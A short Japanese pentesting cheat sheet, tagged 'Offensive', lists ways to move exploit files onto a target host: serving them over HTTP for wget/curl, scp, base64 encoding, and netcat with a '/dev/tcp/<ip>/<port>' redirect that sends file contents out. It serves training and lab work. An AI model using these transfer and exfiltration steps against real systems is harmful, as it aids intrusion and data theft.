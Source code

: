```yaml
---
tags:
  - Offensive
---
```

# Transferring Files

エクスプロイトのファイルを攻撃対象に送りたい場合、いくつかの方法がある。

- ローカルでWebサーバーを立ち上げ、wget,curlでダウンロードする。([[RunHTTP CheatSheet]])
- [[scp]]を使う。
- Base64を使う。
	- `base64 <ファイル> -w 0`でBase64にエンコードする。
	- `echo <Base64> | base64 -d > <出力ファイル>`でリモートに展開。
	- `file <ファイル>`や`md5sum <ファイル>`でファイルが壊れていないか確認できる。
- [[NetCat]]を使う。
	- `nc -lvnp <port>`で待ち受ける。
	- `cat <file> > /dev/tcp/<ip>/<port>`でデータを送信。